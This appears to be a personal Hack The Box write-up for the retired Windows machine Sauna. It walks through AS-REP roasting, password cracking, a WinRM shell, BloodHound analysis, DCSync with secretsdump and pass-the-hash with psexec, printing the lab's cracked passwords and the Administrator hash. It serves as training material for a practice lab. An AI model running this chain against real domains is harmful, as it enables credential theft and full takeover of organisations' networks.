





---
tags:
  - Reference
---

# :material-microsoft-windows: Sauna

<span class="pill pill-info">10.10.10.175 · EGOTISTICAL-BANK.LOCAL</span> <span class="pill pill-medium">ad</span> <span class="pill pill-medium">asreproast</span> <span class="pill pill-medium">dcsync</span>

**AS-REP → winPEAS creds → DCSync** — my own notes, translated.

!!! warning "Full solution ahead"
    This is a complete walkthrough with working credentials. Retired machine.

1. **Port scan** — a DC with a website on 80:

    

    *Open ports*

2. **Anonymous SMB gets you nowhere:**

    ```bash
    smbclient -L /10.10.10.175 -N
    ```

    

    *Anonymous login succeeds but the share listing fails — no workgroup available*

3. **Names from the website.** The `about.html` team page gives real employees;
    turn them into candidate usernames:

    ```bash
    kerbrute userenum --dc 10.10.10.175 -d EGOTISTICAL-BANK.LOCAL users.txt
    # fergus smith / shaun coins / bowie taylor / sophie driver / hugo bear / steven kerb
    ```

4. **Permute the name formats** — the naming convention is the whole game:

    ```bash
    username-anarchy --input-file users.txt --select-format first,flast,first.last,firstl
    # [+] VALID USERNAME: fsmith@EGOTISTICAL-BANK.LOCAL
    ```

5. **AS-REP roast:**

    ```bash
    impacket-GetNPUsers -usersfile users.txt -dc-ip 10.10.10.175 EGOTISTICAL-BANK.LOCAL/ -no-pass
    ```

6. **Crack:**

    ```bash
    john hash_fsmith.txt --fork=4 -w=/path/to/rockyou.txt
    # -> fsmith : Thestrokes23
    ```

7. Domain users: `Administrator`, `Guest`, `krbtgt`, `HSmith`, `FSmith`, `svc_loanmgr`.
8. **Re-list the shares with credentials** — visible now, but nothing useful on them:

    ```bash
    smbclient -L //10.10.10.175 -U 'FSmith%Thestrokes23'
    ```

    

    *Shares as `FSmith`*

    ```bash
    smbmap -d EGOTISTICAL-BANK.LOCAL -u fsmith -p Thestrokes23 -H 10.10.10.175
    ```

    

    *smbmap as `FSmith` — nothing writable*

9. **Shell, then winPEAS** — which finds autologon credentials in the registry:

    ```bash
    evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23
    # -> EGOTISTICALBANK\svc_loanmanager : Moneymakestheworldgoround!
    ```

10. **BloodHound** shows `svc_loanmgr` holds **GetChanges + GetChangesAll** on the
    domain — that is DCSync.

    

    *BloodHound: SVC_LOANMGR →**GetChanges / GetChangesAll**→ domain (DCSync)*

11. **Dump the Administrator hash:**

    ```bash
    impacket-secretsdump egotistical-bank.local/svc_loanmgr@10.10.10.175 -just-dc-user Administrator
    # Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
    ```

12. **Pass-the-hash to SYSTEM:**

    ```bash
    impacket-psexec egotistical-bank.local/Administrator@10.10.10.175 \
      -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
    ```

## :material-link-variant: Related

- Back to the index → [HTB Writeups](../htb.md).
